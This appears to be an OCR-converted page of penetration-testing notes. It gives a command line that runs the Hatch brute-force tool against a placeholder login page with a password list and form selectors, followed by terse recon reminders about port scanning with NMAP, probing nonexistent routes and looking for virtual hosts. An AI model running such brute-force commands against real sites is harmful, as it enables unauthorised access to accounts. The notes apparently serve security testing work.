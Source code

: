 \section{Login brute force attack test}

GitHub - FlorianBord2/Hatch-python3-optimised: Hatch is a brute force tool that is used to brute force most websites


\begin{lstlisting}[numbers=none]
	git clone https://github.com/FlorianBord2/Hatch-python3-optimised
\end{lstlisting}


\begin{lstlisting}[numbers=none]
	python main.py --website "https://vulnerable-site.com /login" --passlist  passlist.txt  --username "cibersoc_3tin"  --usernamesel "body > div > div > div > div:nth-child(2) > form > div:nth-child(1) > div > div:nth-child(1) > div > div > input" --passsel "body > div > div > div > div:nth-child(2) > form > div:nth-child(1) > div > div:nth-child(2) > div > div > input" --loginsel "body > div > div > div > div:nth-child(2) > form > div:nth-child(2) > div > div > div > button > span"
\end{lstlisting}


\section{Web application exploration}

Navigation.

Identify user flows.

\section{Ports identification}

Use NMAP.


\section{Search for default configurations}

Search for routes that doesn't exist.

https://url/donotexist

\section{Hosted and related applications identification}

Virtual hosts maybe.

